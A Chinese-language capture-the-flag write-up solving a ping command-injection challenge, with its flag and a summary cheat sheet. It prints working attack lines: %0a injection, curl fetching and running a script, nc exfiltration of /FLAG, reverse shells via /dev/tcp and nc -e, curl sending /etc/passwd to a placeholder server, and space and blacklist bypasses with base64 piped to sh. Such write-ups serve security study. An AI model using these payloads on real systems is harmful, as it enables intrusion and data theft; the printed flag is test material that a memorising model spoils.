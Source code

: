 ```yaml
---
Author: SuperJason
Date: 2020-12-25
---
```


## flag
n1book{6fa82809179d7f19c67259aa285a7729}

## 思路
1. 访问环境，测试命令`127.0.0.1`  
![](./images/cmd-1.png)
2. 接着测试`127.0.0.1 && ls`，这里浪费了一点时间，以为`&&`不能让`ls`命令执行，其实是因为浏览器将我们输入的`&&`转码了，导致我们的输入其实变成了`127.0.0.1+%26%26+ls`  
   **建议以后做注入题目时，直接用burpsuite，防止注入的数据被浏览器转码**  
![](./images/cmd-2.png)  
![](./images/cmd-3.png)
3. 这里还有一个问题，虽然ip ping成功，但后面的命令不一定执行了。接着用`sleep 5`进行延时注入，发现`&&`命令并不能让后面的sleep命令执行，接着测试`%0a`连接符，可以让后面的sleep命令执行
4. 开始猜测flag的位置，`flag`、`flag.php`、`flag.txt`等，没有找到明显的flag文件。由于没有命令执行的回显，如何找到flag文件并且将文件数据传出来是个问题，考虑`{flag file} | nc {your_server_ip port}`将数据传出来，但`|`和`:`符号被判定为恶意字符。  
**如果没有服务器，可以用buuctf开小号，在basic/Linux labs上启动一个内网服务器**  
5. `>`没有被过滤，可以从服务器下载恶意脚本到本地并执行。这里使用`curl {your_server_ip}/ctf.sh`，然后准备给sh文件加执行权限，却无法添加，最后怀疑当前用户在当前目录没有保存文件的权限。  
![](./images/cmd-4.png)  
![](./images/cmd-5.png)
6. 于是将`ctf.sh`保存到`tmp`目录下。添加可执行权限。  
![](./images/cmd-6.png)  
![](./images/cmd-7.png)
7. 这里其实传了两次.sh文件，第一次的文件内容为`ls  | nc {your_server_ip port}`，得到当前目录下的文件列表，发现存在`/FLAG`文件，第二次的文件内容为`cat /FLAG | nc {your_server_ip port}`，将`/FLAG`文件内容传出来。  
8. 在服务器上监听本地端口`nc -lvp 8888`，这里我的是8888。然后执行`ctf.sh`，得到回传的数据。  
![](./images/cmd-8.png)  
![](./images/cmd-9.png)

## 总结
命令执行主要是通过特殊字符让本不该执行的命令执行。常用的特殊字符有
- 转义符  
  `^`、`\`、`&`
- 连接符  
  `&&`、`||`、`%0a`、`%0d`、`;`、`$()`
- 注释符号
  `#`、`:: ` 

### 进一步的扩宽一下难度
1. cmd可以会过滤空格，可以用其他字符绕过
- %09、%0b、%0c、$IFS$9  
2. 黑名单绕过  
- 字符串拼接，`a=c;b=at;c=ag;d=fl;$a$b ${d}${c}`或`a=c;b=at;c=ag;d=fl;$a$b $d$c`为cat flag
- 字符串截取，substr
3. `nc、curl`命令的使用，`>、|`重定向符的使用
4. 常用反弹shell
- 攻击者服务器监听8888端口，nc -lvp 8888
- 受害者1 `bash -i >& /dev/tcp/{server_ip}/8888 0>&1`
- 受害者2 `nc -e /bin/sh {server_ip} 8888`
5. 将反引号内命令的输出作为输入执行
```
cat$IFS$9`ls`
```
6. 过滤bash用sh执行,base64解码，`cat flag.php`为`Y2F0IGZsYWcucGhw`
```
echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
```
## 反弹shell相关
1. 读取linux文件   
   ```curl -F "x=`cat /etc/passwd`" http://{your_vps}```
2. 反弹shell  
   attack  `nc -lvp 2333`  
   target  `bash -i >& /dev/tcp/{your_vps_ip}/2333 0>&1`  
   
3. base64反弹shell  
   target  `echo {base64encode_shell}|base64 -d|bash`
  